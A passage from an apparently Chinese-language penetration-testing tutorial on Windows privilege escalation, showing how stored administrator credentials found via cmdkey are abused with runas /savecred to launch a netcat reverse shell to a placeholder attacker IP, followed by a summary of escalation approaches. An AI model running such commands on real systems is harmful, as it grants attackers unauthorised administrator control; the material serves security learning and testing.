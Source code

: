 除非应用程序与凭据管理器进行交互，否则我认为它们不可能对给定资源使用凭据。因此，如果您的应用程序要使用保管库，则应以某种方式**与凭证管理器进行通信，并**从默认存储保管库中**请求该资源的凭证**。

### 漏洞复现

1. 通过 cmdkey /list 列出存储的所有用户的凭据，发现 administrator 凭据被存储在了本机上。

![](https://image.3001.net/images/20210205/1612509055_601cef7f4a9c61a589e8f.jpg!small)

![](https://image.3001.net/images/20210205/1612509072_601cef90818d43a0ed1b0.gif!small)

2. 使用 runas 来以管理员权限启动 nc 反弹 shell

```
Runas /user:administrator /savecred "nc.exe -e cmd.exe X.X.X.X 1337"


```

![](https://image.3001.net/images/20210205/1612509092_601cefa47cb6dba561ad9.gif!small)

3. 在攻击机启动监听，获取反弹 shell。

![](https://image.3001.net/images/20210205/1612509102_601cefae9dc2d784cb825.jpg!small)

技术小结
----

**在测试项目中，测试人员通常会设法获取 shell**，然后再进行下一步的操作，本文旨在给大家提供一些从普通权限到 system 权限的思路，基本总结如下：

> **1. ****通过查看内核版本，寻找是否存在可以利用的提权 EXP****。**
> 
> **2. 通过信息收集，查看机器配置，账户密码等查看是否可以利用。**
> 
> **3. ****通过查看系统的应用，或者第三方应用，查找服务本身是否存在问题，或者是否配置存在问题，如大家常见的 mysql**** 提权**